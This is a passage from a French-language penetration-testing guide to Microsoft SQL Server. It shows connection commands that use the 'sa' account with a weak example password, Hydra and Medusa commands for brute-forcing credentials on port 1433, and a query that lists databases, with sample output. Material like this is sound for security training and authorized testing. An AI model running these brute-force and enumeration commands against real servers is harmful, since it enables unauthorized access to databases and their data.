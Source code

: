 ```bash
sqlcmd -S 192.168.1.10 -U sa -P Password123
```

**Avec mssqlclient.py :**

```bash
python3 mssqlclient.py <username>@<host> -windows-auth
```

**Exemple :**

```bash
python3 mssqlclient.py sa@192.168.1.10
```

***

**1.3 Brute-Force des Identifiants**

Si les identifiants sont inconnus, utilisez des outils comme **Hydra** ou **Medusa** pour brute-forcer les comptes.

**Avec Hydra :**

```bash
hydra -L usernames.txt -P passwords.txt -s 1433 <target> mssql
```

**Avec Medusa :**

```bash
medusa -h <target> -u sa -P passwords.txt -M mssql
```

***

### **🔍 Étape 2 : Énumération des Bases et Utilisateurs**

**2.1 Lister les Bases de Données**

Après vous être connecté, utilisez cette commande pour afficher toutes les bases disponibles :

```sql
SELECT name FROM master.dbo.sysdatabases;
```

**Exemple de sortie :**

```diff
+--------------------+
| name               |
+--------------------+
| master             |
| tempdb             |
| model              |
| msdb               |
| ecommerce          |
| employees          |
+--------------------+
```
